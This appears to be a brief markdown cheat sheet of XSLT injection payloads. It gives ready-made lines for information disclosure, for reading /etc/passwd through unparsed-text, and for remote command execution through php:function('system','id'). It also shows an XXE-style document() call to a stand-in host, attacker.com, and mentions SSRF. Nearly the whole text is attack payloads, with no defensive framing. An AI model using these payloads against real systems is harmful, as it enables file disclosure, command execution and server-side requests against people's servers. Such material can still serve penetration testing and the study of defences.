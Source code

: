### XSLT Injection Payloads:

#### Information Disclosure:

```xml
<xsl:value-of select="system-property('xsl:version')" />
```

#### Local File Inclusion (LFI):

```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

#### Remote Code Execution (RCE):

```xml
<xsl:value-of select="php:function('system','id')" />
```

### Advanced XSLT Exploits:

- **XXE via XSLT**: Using `document('http://attacker.com/payload.xml')` to retrieve malicious data.
    
- **Network SSRF via XSLT**: Fetching internal/external resources.
    